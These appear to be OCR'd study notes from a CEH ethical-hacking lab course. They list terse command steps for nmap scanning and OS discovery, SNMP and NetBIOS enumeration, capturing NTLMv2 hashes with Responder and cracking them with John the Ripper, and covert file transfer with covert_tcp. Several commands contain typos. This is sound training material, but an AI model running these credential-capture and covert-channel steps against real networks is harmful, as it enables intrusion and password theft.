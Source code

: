 - **nmap -A -v [IP]** 
- **-A:** Aggressive scan 

**Lab3-Task2: OS Discovery** 

- **nmap -A -v [IP]** 
  - **-A:** Aggressive scan 
- **nmap -O -v [IP]** 
  - **-O:** OS discovery 
- **nmap –script smb-os-discovery.nse [IP]** 
- **-–script:** Specify the customized script 
- **smb-os-discovery.nse:** Determine the OS, computer name, domain, workgroup, and current time over the SMB protocol (Port 445 or 139) 

**Module 04: Enumeration** 

**Lab2-Task1: Enumerate SNMP using snmp-check** 

- nmap -sU -p 161 [IP] 
- **snmp-check [IP]** 

**Addition** 

- nbtstat -a [IP] (Windows) 
- nbtstat -c 

**Module 06: System Hacking** 

**Lab1-Task1: Perform Active Online Attack to Crack the System's Password using Responder** 

- **Linux:** 
- cd 
- cd Responder 
- chmox +x ./Responder.py 
- **sudo ./Responder.py -I eth0** 
- passwd: \*\*\*\* 
- **Windows** 
- run 
- \CEH-Tools 
- **Linux:** 
- Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt 
- sudo snap install john-the-ripper 
- passwd: \*\*\*\* 
- **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP- 10.10.10.10.txt** 

**Lab3-Task6: Covert Channels using Covert\_TCP** 

- **Attacker:** 
  - cd Desktop 
  - mkdir Send 
  - cd Send 
  - echo "Secret"->message.txt 
  - Place->Network 
  - Ctrl+L 
  - **smb://[IP]** 
  - Account & Password 
  - copy and paste covert\_tcp.c 
  - **cc -o covert\_tcp covert\_tcp.c** 
- **Target:** 
  - **tcpdump -nvvx port 8888 -I lo** 
  - cd Desktop 
  - mkdir Receive 
  - cd Receive 
  - File->Ctrl+L 
  - smb://[IP] 
  - copy and paste covert\_tcp.c 
  - cc -o covert\_tcp covert\_tcp.c 
  - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt** 